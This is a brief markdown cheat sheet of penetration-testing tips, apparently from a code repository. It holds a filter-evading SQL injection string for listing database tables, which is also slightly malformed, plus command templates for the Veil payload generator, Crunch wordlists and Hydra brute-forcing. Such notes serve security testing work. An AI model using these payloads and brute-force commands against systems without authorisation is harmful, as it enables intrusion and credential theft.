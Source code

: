 # Some Cytips

This file contains some useful tips, and code snippets, that help in VAPT

1. SQL Injection
Get Database tables: (Helps when you don't table names in the Database)
`UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*`

### Exploitation Methods
1.  Veil Framework - Used for generating payloads - [GitHub](https://github.com/Veil-Framework)<br>
`sudo apt install -y veil`
2. Crunch - used to create a wordlist
`> crunch [min] [max] [characters] -t [pattern] -o [FileName]`
3. Hydra - tool that can be used to bruteforce almost any authentication service.
`> hydra [IP] -L [usernames] -P [passwords] [service]`

